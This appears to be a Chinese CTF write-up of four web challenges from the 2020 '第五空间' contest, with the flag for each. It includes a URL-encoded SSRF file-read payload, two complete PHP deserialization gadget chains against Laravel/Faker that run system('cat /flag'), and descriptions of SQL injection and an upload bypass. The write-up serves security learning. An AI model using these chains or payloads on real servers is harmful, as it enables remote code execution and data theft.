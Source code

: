 ```yaml
---
layout:     post
title:      第五空间-WP
subtitle:   第五空间 web wp
date:       2020-06-27
author:     BY Diego
header-img: img/wenzhang/post-bg-第五空间.jpg
catalog: true
tags:
    - WP
    - 比赛
---
```


# hate-php

简单的无字符webshell 利用取反绕过 + php7 特性

![NwNpLV.png](https://s1.ax1x.com/2020/06/24/NwNpLV.png)

![NwNSs0.png](https://s1.ax1x.com/2020/06/24/NwNSs0.png)

`flag{ecee9b5f24f8aede87cdda995fed079c}`

# do you know

非预期解

index.php 存在如下限制
![NwaTqx.png](https://s1.ax1x.com/2020/06/24/NwaTqx.png)
检测 `$_SERVER['QUERY_STRING']` 但是不会url解码 ，因此url编码绕过

下面几个限制 `_GET` 最后一个参数复制给url
构造如下
```
a=1&b=1&url=..
```

后面是php的curl， 因此为ssrf ，支持file，dict等协议 尝试读文件
![NwaqIO.png](https://s1.ax1x.com/2020/06/24/NwaqIO.png)
xxe.php 存在main.php 和 hint.php
读取文件main.php
![NwabdK.png](https://s1.ax1x.com/2020/06/24/NwabdK.png)

发现存在flag.php
![NwaHZ6.png](https://s1.ax1x.com/2020/06/24/NwaHZ6.png)

payload
```
?a=1&b=1&url=%66%69%6c%65%3a%2f%2f%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%66%6c%61%67%2e%70%68%70
```
`flag{5bc0bc291d322450679866d5ddf0a346}`

# laravel

从网上公开的利用链已经不能用了 ，尝试自己挖掘

先寻找利用点 全局搜索`call_user_func`,目标锁定在
![NwBdwq.png](https://s1.ax1x.com/2020/06/24/NwBdwq.png)

然后寻找起始点`__destruct` 而这里的`__destruct` 需要调用上面的`__call`，找到符合条件的点`\vendor\laravel\framework\src\Illuminate\Routing\PendingResourceRegistration.php`
![NwBamn.png](https://s1.ax1x.com/2020/06/24/NwBamn.png)

会去调用`register`，而`register`又会调用`$this->registrar->register()`,同时`$this->registrar`可控，因此调用了`__call`

利用

目的是利用`vendor\fzaninotto\faker\src\Faker\ValidGenerator.php`中`__destruct`的`call_user_func`
这里`$this->validator`可控 `$res` 为call_user_func_array 的返回值
![NwBNOs.png](https://s1.ax1x.com/2020/06/24/NwBNOs.png)

因此还需要寻找一个返回值可控的点，同时由于`name` 不可控因此 调用的方法不可控，但是会调用可控制类的`__call`方法，因此再寻找一个符合条件的`__call` 方法

`vendor\fzaninotto\faker\src\Faker\DefaultGenerator.php` 中 `$this->default`可控 因此`$res`可控
![NwBtyj.png](https://s1.ax1x.com/2020/06/24/NwBtyj.png)


最终`call_user_func`全部可控,构造链如下
```php
<?php

namespace Illuminate\Routing {

	class PendingResourceRegistration{

    	protected $registrar;
    	protected $registered = false;
    	public function __construct(){

    	    $this->registrar = new \Faker\ValidGenerator();
    	}
	}

}

namespace Faker {
	class ValidGenerator{
    	protected $generator ;//= new DefaultGenerator();
    	protected $validator;
    	protected $maxRetries=1;

    	public function __construct(){

    		$this->generator = new DefaultGenerator();
    		$this->validator = "system";

    	}
    }

    class DefaultGenerator{
    	protected $default="cat /flag";
    }

}

namespace {

	$a = new Illuminate\Routing\PendingResourceRegistration();
	echo urlencode(serialize($a));
}
?>
```
亦或者如下
```php
<?php
namespace Faker {
	class ValidGenerator{
    	protected $generator ;//= new DefaultGenerator();
    	protected $validator;
    	protected $maxRetries=1;

    	public function __construct(){

    		$this->generator = new DefaultGenerator();
    		$this->validator = "system";

    	}
    }

    class DefaultGenerator{
    	protected $default="cat /flag";
    }

}

namespace Symfony\Component\Routing\Loader\Configurator{

	class CollectionConfigurator{
		private $parent;
    	private $parentConfigurator;
    	private $parentPrefixes;
    	public function __construct(){
    		$this->prefixes = 1;

    	    $this->parent = new \Faker\ValidGenerator();
    	}
	}
}

namespace {

	$a = new Symfony\Component\Routing\Loader\Configurator\CollectionConfigurator();
	echo urlencode(serialize($a));
}
```
![NwDPXj.png](https://s1.ax1x.com/2020/06/24/NwDPXj.png)
`flag{90569859b0164266ef04461bbc1d5cc5}`


# 美团外卖

一开始以为是个注入题目 可以`'union select 'md5'# ` 然后对应值登入 但是发现是个空壳


扫描目录发现存在www.zip
审计存在注入漏洞 daochu.php（无任何过滤）
![NwsNOH.png](https://s1.ax1x.com/2020/06/24/NwsNOH.png)

注入发现hints
![Nwsd0A.png](https://s1.ax1x.com/2020/06/24/Nwsd0A.png)

是个后台地址，同时发现框架使用了webuploader 插件 ，存在上传漏洞
`lib\webuploader\0.1.5\server\preview.php`多加了限制 然后大写绕过
![Nwsamd.png](https://s1.ax1x.com/2020/06/24/Nwsamd.png)

![NwswTI.png](https://s1.ax1x.com/2020/06/24/NwswTI.png)
最后`?file = /flag` 即可


![Nwst6e.png](https://s1.ax1x.com/2020/06/24/Nwst6e.png)

`flag{90569859b0164266ef04461bbc1d5cc5}`
